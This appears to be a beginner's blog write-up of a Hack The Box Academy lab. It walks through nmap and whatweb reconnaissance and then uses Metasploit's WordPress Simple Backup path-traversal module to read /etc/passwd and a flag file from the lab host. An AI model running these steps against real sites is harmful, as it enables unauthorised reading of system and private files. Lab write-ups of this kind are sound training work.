 module: getting started
section: public exploits
url: https://academy.hackthebox.com/module/77/section/843

the solution is pretty simple, though i was confused at first that the `nmap` scan didn't reveal any smb service running on the host machine (as the entire section revolves around exploiting the EternalBlue vulnerability).

```
$ nmap -sC -sV 94.237.51.10 -v

...snip...

PORT      STATE    SERVICE VERSION
19/tcp    filtered chargen
22/tcp    open     ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey:
|   3072 98:aa:48:28:67:de:3f:ef:39:4a:8b:39:d8:28:96:50 (RSA)
|   256 5d:bc:77:53:c6:a0:72:1c:e4:b0:ca:7b:8a:87:15:b5 (ECDSA)
|_  256 ec:9f:18:af:f9:2e:3c:07:71:23:5c:9d:51:55:b4:d5 (ED25519)
40193/tcp open     http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: HTB Academy
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-robots.txt: 1 disallowed entry
|_/admin-login-page.php
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

a scan against the port given in the challenge reveals yet another http service running:

```
$ nmap -sC -sV 94.237.51.10 -v -p43457

... snip ...

PORT      STATE    SERVICE VERSION
43457/tcp open     http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Getting Started &#8211; Just another WordPress site
|_http-generator: WordPress 5.6.1
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

whatweb didn't reveal anything that looked suspicious to me as a beginner

```
$ whatweb 94.237.51.10:43457 -v
WhatWeb report for http://94.237.51.10:43457
Status    : 200 OK
Title     : Getting Started &#8211; Just another WordPress site
IP        : 94.237.51.10
Country   : FINLAND, FI

Summary   : Apache[2.4.41], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], MetaGenerator[WordPress 5.6.1], PoweredBy[--], Script, UncommonHeaders[link], WordPress[5.6.1]

Detected Plugins:
[ Apache ]
        The Apache HTTP Server Project is an effort to develop and
        maintain an open-source HTTP server for modern operating
        systems including UNIX and Windows NT. The goal of this
        project is to provide a secure, efficient and extensible
        server that provides HTTP services in sync with the current
        HTTP standards.

        Version      : 2.4.41 (from HTTP Server Header)
        Google Dorks: (3)
        Website     : http://httpd.apache.org/

[ HTML5 ]
        HTML version 5, detected by the doctype declaration


[ HTTPServer ]
        HTTP server header string. This plugin also attempts to
        identify the operating system from the server header.

        OS           : Ubuntu Linux
        String       : Apache/2.4.41 (Ubuntu) (from server string)

[ MetaGenerator ]
        This plugin identifies meta generator tags and extracts its
        value.

        String       : WordPress 5.6.1

[ PoweredBy ]
        This plugin identifies instances of 'Powered by x' text and
        attempts to extract the value for x.

        String       : --

[ Script ]
        This plugin detects instances of script HTML elements and
        returns the script language/type.


[ UncommonHeaders ]
        Uncommon HTTP server headers. The blacklist includes all
        the standard headers and many non standard but common ones.
        Interesting but fairly common headers should have their own
        plugins, eg. x-powered-by, server and x-aspnet-version.
        Info about headers can be found at www.http-stats.com

        String       : link (from headers)

[ WordPress ]
        WordPress is an opensource blogging system commonly used as
        a CMS.

        Version      : 5.6.1
        Aggressive function available (check plugin file or details).
        Google Dorks: (1)
        Website     : http://www.wordpress.org/

HTTP Headers:
        HTTP/1.1 200 OK
        Date: Fri, 15 Dec 2023 18:26:09 GMT
        Server: Apache/2.4.41 (Ubuntu)
        Link: <http://94.237.51.10:43457/index.php/wp-json/>; rel="https://api.w.org/"
        Vary: Accept-Encoding
        Content-Encoding: gzip
        Content-Length: 3353
        Connection: close
        Content-Type: text/html; charset=UTF-8
```

opening the website in a browser gives us this

![the target website](images/2023-12-15-htb-academy-getting-started-public-exploits/target-website.png)

at this point i wasn't sure if i was missing something, as i was still wondering when that eternalblue context would come in handy. spoiler: it won't...

so impatient me checked the hint:

> Search for plugin exploits

at least i was on the right track. while running `searchsploit simple backup plugin 2.7.10` didn't return any results, googling for `Simple Backup Plugin 2.7.10 vulnerability` brought me here: https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/simple-backup/simple-backup-2710-arbitrary-file-download-via-path-traversal

a "arbitrary file download"-exploit. interesting! since the goal of the task was to download a flag.txt file this sounded promising.

so i started metasploit's `msfconsole` and ran

```
> search simple backup

Matching Modules
================

   #  Name                                               Disclosure Date  Rank    Check  Description
   -  ----                                               ---------------  ----    -----  -----------
   0  auxiliary/scanner/http/wp_simple_backup_file_read                   normal  No     WordPress Simple Backup File Read Vulnerability
```

nice, next up:

```
> use auxiliary/scanner/http/wp_simple_backup_file_read
> show options

Module options (auxiliary/scanner/http/wp_simple_backup_file_read):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   DEPTH      6                yes       Traversal Depth (to reach the root folder)
   FILEPATH   /etc/passwd      yes       The path to the file to read
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the wordpress application
   THREADS    1                yes       The number of concurrent threads (max one per host)
   VHOST                       no        HTTP server virtual host

> set RHOSTS 94.237.51.10
RHOSTS => 94.237.51.10
> set RPORT 43457
RPORT => 43457
> run

[+] File saved in: /home/kali/.msf4/loot/20231215194509_default_94.237.51.10_simplebackup.tra_527647.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

this downloaded the /etc/passwd file which didn't give me any specific clues. however, the task was to "download /flag.txt", so i decided to change the filepath to `/flag.txt`

```
> set FILEPATH /flag.txt
FILEPATH => /flag.txt
> run

HTB{... redacted ...}

[+] File saved in: /home/kali/.msf4/loot/20231215195613_default_94.237.51.10_simplebackup.tra_360626.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

and there we have it. my first hack 😎
